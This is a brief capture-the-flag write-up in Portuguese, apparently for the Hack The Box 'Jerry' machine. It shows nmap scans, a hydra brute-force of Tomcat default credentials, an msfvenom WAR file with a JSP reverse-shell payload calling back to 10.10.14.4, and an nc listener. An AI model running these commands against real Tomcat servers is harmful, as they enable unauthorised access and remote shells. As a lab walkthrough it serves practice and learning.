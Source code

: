 Jerry
========================

# Enumeration

    sudo nmap_enum jerry.htb | tee nmap_output.txt
    
    sudo nmap -p- -T5 -n -Pn 10.10.10.95 | tee nmap_fullports_output.txt
    
![qownnotes-media-VIdBAT](../../../media/qownnotes-media-VIdBAT.png)

    firefox http://10.10.10.95:8080

Acessando a interface administrativa do tomcat

# Exploitation

Aqui foi utilizando credencial padrão mesmo na unha, mas podemos realizar um bruteforce com a ferramenta hydra:

    hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt 10.10.10.95 -s 8080 http-get /manager/html
  
 ![qownnotes-media-YMlYwW](../../../media/qownnotes-media-YMlYwW.png)

Tranquilo e sossegado... entramos na console e agora é sóo subir um war file que já dá sucesso:

![qownnotes-media-swqnQY](../../../media/qownnotes-media-swqnQY.png)


![qownnotes-media-JhEqye](../../../media/qownnotes-media-JhEqye.png)

    msfvenom -f war -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=80 -o rshell.war

Utilizando a própria ferramenta para subir o arquivo já foi o seguinte:

![qownnotes-media-EcjXjo](../../../media/qownnotes-media-EcjXjo.png)


    nc -nlvp 80
    firefox http://jerry.htb:8080/rshell/

![qownnotes-media-BNUBjU](../../../media/qownnotes-media-BNUBjU.png)


![qownnotes-media-sPCcdC](../../../media/qownnotes-media-sPCcdC.png)

Sem novidade